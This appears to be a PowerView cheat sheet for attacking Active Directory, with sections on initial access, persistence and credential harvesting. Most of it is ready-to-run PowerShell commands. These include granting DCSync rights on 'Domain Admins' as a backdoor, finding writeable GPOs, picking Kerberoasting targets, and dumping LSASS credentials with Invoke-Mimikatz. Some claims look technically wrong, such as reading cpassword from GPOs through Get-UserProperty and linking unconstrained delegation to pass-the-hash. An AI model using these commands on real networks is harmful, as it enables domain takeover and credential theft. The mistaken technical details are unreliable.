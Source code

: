 #### Initial Access

PowerView assists in identifying weak points in an Active Directory environment to gain initial access.

1. **Gaining Access Through Unprivileged User Accounts**: Identifies accounts with non-expiring passwords, which can be used for brute-force or password-spraying attacks.
    ```powershell
    Get-NetUser | Where-Object { $_.PasswordNeverExpires -eq $True }
    ```
2. **Locating Passwords in GPOs**: Searches GPOs for plaintext passwords that may have been improperly stored.
    ```powershell
    Get-NetGPO | Get-UserProperty -Properties cpassword
    ```
3. **Finding Unconstrained Delegation**: Identifies accounts that are trusted for delegation, a common entry point for attacks like pass-the-hash.
    ```powershell
    Get-UserProperty -Properties "TrustedForDelegation"
    ```

#### Persistence

PowerView helps establish persistence by identifying weak configurations in AD and monitoring changes.

1. **Backdooring Domain Objects**: Modifies ACLs on critical objects like Domain Admins to grant long-term access.
    ```powershell
    Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights DCSync
    ```
2. **Monitoring Domain Changes**: Continuously monitors domain activity for changes, like user additions to privileged groups, to maintain awareness of AD changes.
    ```powershell
    Invoke-DomainWatcher
    ```
3. **Enumerating Writeable GPOs**: Identifies GPOs that can be modified to implement persistent changes or execute code.
    ```powershell
    Get-NetGPO -ResolveGUIDs | Where-Object { $_.Permissions -like "*Write*" }
    ```

#### Credential Harvesting

PowerView assists in identifying opportunities to harvest credentials across the network.

1. **Finding High-Value Accounts for Credential Harvesting**: Locates users in high-value groups like Enterprise Admins, which can be targeted for credential theft.
    ```powershell
    Get-NetUser | Where-Object { $_.MemberOf -like "*Enterprise Admins*" }
    ```
2. **Kerberoasting Targets**: Identifies service accounts that are prime candidates for Kerberoasting attacks.
    ```powershell
    Get-NetUser -SPN | Where-Object { $_.MemberOf -like "*Service Accounts*" }
    ```
3. **Dumping Credentials from LSASS via Service Enumeration**: Although not a PowerView command, PowerView can identify hosts where tools like `mimikatz` can be run to extract credentials.
    ```powershell
    Invoke-Mimikatz -DumpCreds
    ```
